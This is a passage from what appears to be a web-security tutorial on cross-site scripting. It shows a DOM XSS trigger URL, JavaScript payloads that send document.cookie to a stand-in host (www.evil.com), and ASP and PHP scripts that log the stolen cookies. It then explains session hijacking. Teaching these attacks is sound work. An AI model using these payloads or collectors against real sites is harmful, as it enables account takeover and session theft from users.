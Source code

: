 Save the code in domXSS.html, browser access:

```text
http://127.0.0.1/domXSS.html?a=<script>alert('XSS')</script>
```

You can trigger the XSS vulnerability.

## XSS usage

### Cookies stealing

The attacker can use the following code to obtain the cookie information of the client:

```html
<script>
    document.location = "http://www.evil.com/cookie.asp?cookie=" + document.cookie
    new Image().src = "http://www.evil.com/cookie.asp?cookie=" + document.cookie
</script>
<img src="http://www.evil.com/cookie.asp?cookie=" +document.cookie></img>
```

On the remote server, there is a file that accepts and records Cookies information, an example is as follows:

```asp
<%
  msg=Request.ServerVariables("QUERY_STRING")
  testfile=Server.MapPath("cookie.txt")
  set fs=server.CreateObject("Scripting.filesystemobject")
  set thisfile=fs.OpenTextFile(testfile,8,True,0)
  thisfile.Writeline(""&msg& "")
  thisfile.close
  set fs=nothing
%>
```

```php
<?php
$cookie = $_GET['cookie'];
$log = fopen("cookie.txt", "a");
fwrite($log, $cookie. "\n");
fclose($log);
?>
```

After the attacker obtains the cookies, he can log in to the victim's account by modifying the cookies of the local
browser.

### Session hijacking

Due to certain security flaws in the use of Cookies, developers have begun to use some more secure authentication
methods, such as Session. In the Session mechanism, the client and server use identifiers to identify users and maintain
the session, but this identifier may also be used by others. The essence of session hijacking is to bring Cookies in the
attack and send them to the server.
